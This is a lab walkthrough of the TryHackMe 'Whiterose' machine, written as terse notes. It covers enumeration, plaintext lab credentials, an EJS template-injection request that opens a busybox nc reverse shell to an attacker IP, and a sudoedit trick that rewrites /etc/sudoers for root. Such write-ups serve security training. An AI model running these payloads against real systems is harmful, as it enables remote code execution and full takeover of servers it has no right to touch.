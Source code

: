 <code>
https://tryhackme.com/r/room/whiterose

## Enumeration
┌──(kali㉿kali)-[~/Documents/THM/THM_whiterose]
└─$ nmap -A -Pn -p80 cyprusbank.thm 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-12 05:30 EST
Nmap scan report for cyprusbank.thm (10.10.211.123)
Host is up (0.035s latency).
rDNS record for 10.10.211.123: whiterose.thm

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

┌──(kali㉿kali)-[~/Documents/THM/THM_whiterose]
└─$ ffuf -w ../../www/wordlists/Subdomain.txt -u http://cyprusbank.thm/ -H "Host:FUZZ.cyprusbank.thm" -fw 1 
found admin.cyprusbank.thm


### Use crentials
Olivia Cortez:olivi8


#### Found

http://admin.cyprusbank.thm/messages/?c=0

Gayle Bev: Of course! My password is 'p~]P@5!6;rs558:q'

### Use crentials


in /setting found this

[ CVE-2022–29078 ] → EJS Server Side Template Injection RCE → PoC ( Link to the Writeup Below )


### Get reverse shell

POST /settings HTTP/1.1
Host: admin.cyprusbank.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 199
Origin: http://admin.cyprusbank.thm
Connection: keep-alive
Referer: http://admin.cyprusbank.thm/settings
Cookie: connect.sid=s%3Ad_bGl7Fk6eaYR2o2ysYtiIvEecJP7U7b.E9%2BCA%2Fmz0yjQrd2hHxoKSw1cxNreXYM0k%2BmuDqIVvEY
Upgrade-Insecure-Requests: 1

name=xx&settings[view options][client]=true&settings[view options][escapeFunction]=1;return global.process.mainModule.constructor._load('child_process').execSync('busybox nc  10.9.1.144 4445 -e sh');



╔══════════╣ Analyzing Env Files (limit 70)
-rw-rw-r-- 1 web web 59 Jul 16  2023 /home/web/app/.env                                                             
MONGO=mongodb://localhost
SECRET=secureappsecret
PORT=8080


╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                    
Matching Defaults entries for web on cyprusbank:                                                                    
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH", secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm

### Privescalation

https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudoedit-privilege-escalation/?source=post_page-----972ee9129fe2--------------------------------


export EDITOR="vim -- /etc/sudoers"
sudoedit /opt/example.txt
Copied!
In vim editor, add the following line in /etc/sudoers.
Assume the current username is “john”

web ALL=(ALL:ALL) ALL
Copied!
After that, we can escalate to root privilege.

sudo su root

  
<\code>


